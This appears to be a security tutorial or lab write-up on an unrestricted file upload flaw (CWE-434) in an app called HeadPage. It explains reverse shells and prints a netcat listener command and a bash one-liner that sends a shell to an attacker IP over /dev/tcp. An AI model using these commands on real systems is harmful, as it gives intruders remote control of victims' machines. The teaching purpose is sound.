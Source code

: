 _Jackpot_

# Unrestricted File Upload / Download

> [CWE-434](https://cwe.mitre.org/data/definitions/434.html) Unrestricted Upload of File with Dangerous Type

This is a fairly straight forward vulnerability, the application allows for user uploads without checking or restricting what file types can be uploaded. 

In HeadPage users can upload their files to share with the world, this could result in an attacker spreading malware for example, but when combined with OS code Injection that this vulnerability may truly prove to be disastrous, as [OWASP states](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload):

>  The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed.

## Uploading a Reverse Shell

![llehs](/assets/headpage/reverse_shell.png)

_Haha... very funny..._

In very broad terms, a reverse shell is when, **instead of directly connecting** to a target computer, we make the computer run a system shell and **receive input and redirect output to a remote host** that was awaiting connection. This is usually done by both attackers and legitimate users to bypass remote access constraints such as firewalls. I strongly recommend [this blogpost by my friend Anderson](https://aandersonl.github.io/2020/06/14/reverse-shells-write-and-hunt-part-1/), as explores in much greater depth the concept, and it's uses.

We have an **attacker** with an IP of 192.168.56.106 listening on port 4242 using `netcat`

    nc -lvp 4242

Now we will upload a shell script that runs an interactive `bash` shell, redirecting `STDOUT` and `STDERR` through a TCP Socket to our attacker, and receiving `STDIN` from this same file (remember, in UNIX everything, including a network socket, is a file)

    bash -i >& /dev/tcp/192.168.56.106/4242 0>&1

This is a very basic example of a reverse shell, you can find more of them, and in different languages [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology_and_Resources/Reverse_Shell_Cheatsheet.md).
